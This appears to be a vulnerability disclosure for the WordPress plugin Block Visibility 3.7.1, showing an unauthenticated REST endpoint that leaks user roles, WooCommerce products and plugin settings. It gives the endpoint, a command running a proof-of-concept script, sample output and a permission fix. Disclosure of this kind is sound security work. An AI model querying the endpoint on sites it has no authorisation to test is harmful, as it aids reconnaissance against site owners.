 ## 🔐 Unauthenticated Metadata Disclosure in Block Visibility Plugin

Title:
Unauthenticated Metadata Disclosure via REST API in Block Visibility Plugin

Summary:
A vulnerability was discovered in the Block Visibility – Conditional Visibility Control for the Block Editor plugin (tested on version 3.7.1), which exposes sensitive internal configuration data via a publicly accessible REST API endpoint:

  GET /wp-json/block-visibility/v1/variables

This endpoint is accessible without authentication due to an insecure permission callback, allowing any remote attacker to retrieve:

- Full list of registered user roles (including custom roles from plugins like WooCommerce, Timetics, Eventin, etc.)
- WooCommerce product metadata (IDs and names)
- Integration states (EDD, ACF, WP Fusion)
- Plugin settings (including plugin version and admin settings page URL)

This exposure can assist in reconnaissance, targeted attacks, and crafting access control bypasses.

## Usage:
An unauthenticated user can access the endpoint directly using tools like curl, a browser, or any HTTP client to retrieve structured JSON data from:

  https://targetsite.com/wp-json/block-visibility/v1/variables

No authentication, nonce, or permission check is required. The data returned may include custom business logic, product groupings, or user segmentation that can aid in exploitation or information gathering.

## Mitigation:
Plugin developers should apply proper access control by updating the REST API route registration to restrict access to authenticated users only. For example:

  'permission_callback' => function () {
      return current_user_can('edit_posts');
  }

Additionally, plugin responses should avoid disclosing sensitive data (like full product labels or role names) unless explicitly required by a validated user action.

## Command
python3 bv.py https://targetsite.com/

## Output 
{
  "plugin_variables": {
    "version": "3.7.1",
    "settings_url": "https://targetsite.com/wp-admin/options-general.php?page=block-visibility-settings"
  },
  "is_full_control_mode": false,
  "is_pro": false,
  "current_users_roles": null,
  "integrations": {
    "acf": {
      "active": false,
      "fields": []
    },
    "edd": {
      "active": false,
      "products": []
    },
    "woocommerce": {
      "active": true,
      "products": [
        {
          "value": 231,
          "label": "Dalpark Primary"
        },
        {
          "value": "231_232",
          "label": "Dalpark Primary - EP"
        },
        {
          "value": "231_233",
          "label": "Dalpark Primary - LP"
        }
      ]
    },
    "wp_fusion": {
      "active": false,
      "tags": [],
      "exclude_admins": false
    }
  },
  "user_roles": [
    { "value": "administrator", "label": "Administrator", "type": "core" },
    { "value": "editor", "label": "Editor", "type": "core" },
    { "value": "author", "label": "Author", "type": "core" },
    { "value": "contributor", "label": "Contributor", "type": "core" },
    { "value": "subscriber", "label": "Subscriber", "type": "core" },
    { "value": "customer", "label": "Customer", "type": "custom" },
    { "value": "shop_manager", "label": "Shop manager", "type": "custom" },
    { "value": "timetics-staff", "label": "Staff", "type": "custom" },
    { "value": "timetics-customer", "label": "Timetics Customer", "type": "custom" },
    { "value": "etn-speaker", "label": "Eventin Speaker", "type": "custom" },
    { "value": "etn-organizer", "label": "Eventin Organizer", "type": "custom" },
    { "value": "etn-customer", "label": "Eventin Customer", "type": "custom" },
    { "value": "logged-out", "label": "None (Logged-out users)", "type": "core" }
  ]
}
## Discovered by: Mrj Haxcore

